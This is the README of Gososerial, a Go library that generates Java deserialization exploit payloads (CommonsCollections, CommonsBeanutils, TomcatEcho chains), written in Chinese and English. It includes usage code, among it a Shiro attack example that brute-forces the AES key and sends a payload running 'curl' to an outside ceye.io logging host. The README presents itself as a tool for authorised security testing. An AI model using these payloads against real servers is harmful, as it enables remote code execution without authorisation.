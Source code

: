 # Gososerial

## 介绍

- ysoserial是java反序列化安全方面著名的工具
  
- 无需java环境，无需下载ysoserial.jar文件
  
- 输入命令直接获得payload，方便编写安全工具

- 目前已支持CC1-CC7，K1-K4和CB1链

- 支持K1和K2的TomcatEcho，HTTP头可自行取名

## Introduce

- Ysoserial is a well-known tool for Java deserialization security

- No Java environment and no need to download ysoserial.jar file

- Enter the command to directly obtain the payload, which is convenient for writing security tools

- Support CommonsCollections1-7, K1-K4, CommonsBeanutils1 now

- Support TomcatEcho K1-K2, and the HTTP header name can be edited

## Example

CommonsCollections1 Payload

![](https://github.com/EmYiQing/Gososerial/blob/master/img/1.png)


List of Supported

![](https://github.com/EmYiQing/Gososerial/blob/master/img/2.png)

## Quick Start

```shell
go get github.com/EmYiQing/Gososerial
```

```go
package main

import gososerial "github.com/EmYiQing/Gososerial"

func main()  {
	payload := gososerial.GetCC1("calc.exe")
	......
	sendPayload(payload)
	......
}
```

TomcatEcho

```go
// Testecho: expr 10 '*' 10 -> expr 10 '*' 10
// Testcmd: expr 10 '*' 10 -> 100
payload := gososerial.GetCCK2TomcatEcho("Testecho", "Testcmd")
```

Example

```go
func main() {
	// Shiro Scan Code
	target := "http://shiro_ip/"
	// Brust Shiro AES Key 
	key := shiro.CheckShiroKey(target)
	if key != "" {
		log.Info("find key: %s", key)
	}
	// Use CommonsCollections5 Payload
	var payload []byte
	payload = gososerial.GetCC5("curl xxxxx.ceye.io")
	// Send Cookies Encrypted By AES
	shiro.SendPayload(key, payload, target)
	// Receive Results Using Dnslog API
	if ceye.CheckResult("your_ceye_token") {
		log.Info("find shiro!")
	}
}
```

## About

参考了xray中p师傅的代码

**ysoserial**: https://github.com/frohoff/ysoserial

**xray**: https://github.com/chaitin/xray

**phith0n**: https://github.com/phith0n

## 免责申明

未经授权许可使用Gososerial攻击目标是非法的

本程序应仅用于授权的安全测试与研究目的。
